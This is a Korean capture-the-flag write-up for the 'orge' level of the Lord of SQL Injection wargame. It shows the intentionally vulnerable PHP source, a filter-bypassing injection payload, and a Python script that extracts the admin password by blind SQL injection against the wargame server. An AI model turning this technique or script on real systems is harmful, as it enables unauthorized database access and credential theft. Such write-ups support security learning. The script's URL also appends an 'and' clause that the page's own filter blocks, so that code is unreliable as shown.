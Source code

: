 # Lord of SQL Injection No.7 - orge

## 문제 출제 의도 

OR, AND를 사용하지 않고 Blind SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
orge문제의 소스코드이다.
-----
```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```
* preg_match로 "prob","_",".","()"와 or , and를 필터링 해낸다.

```php
$query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
$result = @mysql_fetch_array(mysql_query($query)); 
if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 

$_GET[pw] = addslashes($_GET[pw]); 
$query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
$result = @mysql_fetch_array(mysql_query($query)); 
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
```

* guest를 무력화시킨후 admin에 해당하는 pw값을 Blind SQL Injection을 통하여 pw값을 넣어 아래 쿼리에 적용시켜야 한다.

* result['id']의 자리에 0이 아닌 어떤값이 들어가도 해당하는 값에 Hello 와 result['id'] 값이 출력된다.

* GET 메소드로 입력한 pw의 값과 DB에 저장되있는 admin의 pw의 값과 일치할때 문제가 해결된다.

## 문제 해결방안

기존에 orc 문제 해결할 때 이용했던 방법을 이용한다.

우선 문제 풀이자에게 admin에 해당하는 pw의 길이를 출력해주는 쿼리스트링은 위의 쿼리스트링으므로 id='guest'값을 무력화 시켜주어야 한다. 하지만 조건을 걸때 or과 and는 사용하면 안되므로 ||와 &&를 이용한다.

그러므로 …?pw=' || id='admin' && LENGTH(pw)=8# 를 하게되면 정말 행복하게도 pw의 길이가 8이라는 것을 알 수 있다.

그러면 전의 orc때 썻던 python 코드를 수정 활용하면 쉽게 풀린다.

```python
import http.client
result=''
leng=8 # 원래는 0이여야 하지만 pw의 문자열길이가 8임을 알았기에 8
header={'Cookie':' '} #로그인에 이용할 쿠키값
string="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_-=+" #pw가 될수있는 값들
'''
for i in range(1,100) :
    length='/orc_47190a4d33f675a601f8def32df2583a.php?pw=%27%20or%20length(pw)='+str(i)+' and%20id=%27admin'
    conn=http.client.HTTPConnection('los.eagle-jump.org')
    conn.request('GET',length,'',header)
    data=conn.getresponse().read()
    if "Hello admin" in data.decode():
        leng = i
        print ("pw length: "+str(i))
        break
        length의 길이를 구하는 for문인데 이미 LENGTH함수로 구했기 떄문에 패스함
'''
for i in range(1,leng+1): # 각 pw의 한자한자를 찾는 for문
    for j in range(0,76): # pw가 될수있는 값들
        substr='/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=%27%20||%20id=%27admin%27%20&&%20substr(pw,'+ str(i) +',1)='+'%27'+ str(string[j]) +'%27'+'and%20id=%27admin' #반복하며 서브스트링을 만들어줌 or 대신 ||, and대신 &&사용했다.
        conn=http.client.HTTPConnection('los.eagle-jump.org') # 보안서버와 통신을 하기위해 사용하는 클래스
        conn.request('GET',substr,'',header) # 연결 성공시 인스턴스 리턴
        data=conn.getresponse().read()
        if 'Hello admin' in data.decode():
            result=result+string[j] # pw값을 만들어줌
            print ('substr(pw,'+str(i)+',1)= '+str(string[j])) # pw값을 하나 출력
            break
print ('Password is '+result) #pw결괏값 출력
```

이렇게 해주면 pw값이 나오고 …?pw=결괏값 하게 되면 아래 쿼리스트링에서 검사되어 문제가 해결된다.